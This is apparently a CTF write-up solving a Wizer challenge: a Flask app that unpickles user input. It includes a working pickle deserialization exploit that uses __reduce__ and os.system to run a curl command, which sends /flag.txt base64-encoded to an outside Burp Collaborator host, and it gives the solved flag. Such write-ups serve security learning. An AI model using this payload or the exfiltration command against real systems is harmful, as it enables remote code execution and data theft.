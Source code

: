 ```yaml
---
title: 'Wizer CTF - Pickle Deserialization RCE'
description: 'Pickle Deserilization RCE CTF writeup from Wizer CTF.'
pubDate: 'Feb 7 2024'
heroImage: '/PythonPickleRCE.jpg'
---
```


Wizer recently hosted a 6-hour Blitz CTF consisting of 6 challenges to be solved in 6 hours. These challenges varied in difficulty, as measured by hot peppers ranging from 1-5. This challenge, titled "Profile page" scored 4/5 peppers.

For this challenge, we are given a URL and the Python source code of the application behind it. It is a small application written in Python using Flask and Pickle. As soon as I saw it was using Pickle, I already knew it was going to be an interesting deserialization challenge!

The challenge on the CTF dashboard can be seen here:
![Challenge from CTF dashboard](/src/assets/WizerPickleRCE/Chall4.jpg)

## Solution

The source code of the app is given:
```py
from flask import Flask, request, render_template
import pickle
import base64

app = Flask(__name__, template_folder='templates')
real_flag = ''
with open('/flag.txt') as flag_file:
    real_flag = flag_file.read().strip()

class Profile:
    def __init__(self, username, email, bio):
        self.username = username
        self.email = email
        self.bio = bio

@app.route('/profile', methods=['GET', 'POST'])
def profile():
    if request.method == 'POST':
        username = request.form.get('username')
        email = request.form.get('email')
        bio = request.form.get('bio')

        if username and email and bio:
            profile = Profile(username, email, bio)
            dumped = base64.b64encode(pickle.dumps(profile)).decode()
            return render_template('profile.html', profile=profile, dumped=dumped)    

    load_object = request.args.get('load_object')
    if load_object:
        try:
            profile = pickle.loads(base64.b64decode(load_object))
            return render_template('profile.html', profile=profile, dumped=load_object)
        except pickle.UnpicklingError as e:
            return f"Error loading profile: {str(e)}", 400

    return render_template('input.html')

@app.route('/submit_flag/<flag>', methods=['GET'])
def flag(flag):
    return real_flag if flag == real_flag else 'Not correct!'

if __name__ == '__main__':
    app.run(debug=True)
```

As we can see, there is not a lot of functionality on the site other than on the ``/profile`` endpoint. Reading into the code, we can see that if we supply a username, email, and bio, it will use that to create a ``Profile`` object using Pickle and our data.
Reading a bit further, we can see that we also have the option to load a ``Profile`` object using the ``load_object`` parameter. This is very interesting to us because it gives us a way to give ``pickle.loads()`` data that we fully control.

Reading up on the [Pickle documentation](https://docs.python.org/3/library/pickle.html) it says the following:

> The pickle module **is not secure**. Only unpickle data you trust.<br>
> It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

So our goal here is to create an object that gives us code execution. Reading from the [documentation](https://docs.python.org/3/library/pickle.html#pickle.loads) again, it says the following regarding ``pickle.loads()``:
> Return the reconstituted object hierarchy of the pickled representation *data* of an object.

Our goal now is to create an object that, when reconstituted, runs commands on the server.
For this, we will need to choose our command and create a pickled object with our payload. Since we just need the flag for this challenge, I'll just be using a simple Curl payload:
```bash
curl http://9dnou0awv3b99xsbgqre8kwl5cb3ztni.oastify.com/$(cat /flag.txt | base64 -w 0)
```

This will send a request to my BurpSuite Collaborator listener with the flag in the URL, but in theory, you could set up a reverse shell to get a stable connection and actually look for the flag. We do, however, know that the flag is located at ``/flag.txt``, so that won't be needed here.


So, let us create a Python object and give it our payload:
```python
import pickle
import base64
import os
import requests

class RCE:
    def __reduce__(self):
        cmd = ('curl http://9dnou0awv3b99xsbgqre8kwl5cb3ztni.oastify.com/$(cat /flag.txt | base64 -w 0)')
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())
payload = base64.b64encode(pickled).decode()
print(payload)

req = requests.get(f'https://dsw3qg.wizer-ctf.com/profile?load_object={payload}')
print(req.status_code)
```

> It is important that you run this script from an OS that matches the target OS. In this case, the target is running Linux, so make sure to run it on Linux. WSL also works, but Windows most likely **will not work**.

Here we create a custom object named ``RCE`` (the name does not matter), and we set the ``__reduce__`` method to return our command using ``os.system``. This command will then be run when the server tries to load our custom object.
Once it is created, we then base64 encode it, print it (just for debugging if anything goes wrong), and send it to the server. If everything goes well, it will return ``200``, and we will see a request in BurpSuite Collaborator:
![Flag request in Burp](/src/assets/WizerPickleRCE/Req.png)

Here we see that we have received the request! Now all there is left to do is just decode it from Base64 and send it to the flag server to mark it as solved!
We can simply decode it using our CLI:
![Base64 decoding flag](/src/assets/WizerPickleRCE/Flag.png)

And there we have the flag!<br>
``WIZER{'PICKL1NG_1S_DANGEROUS'}``

To solve the challenge, all we have to do is send a request to the following URL:<br>
```
https://dsw3qg.wizer-ctf.com/submit_flag/WIZER{'PICKL1NG_1S_DANGEROUS'}
```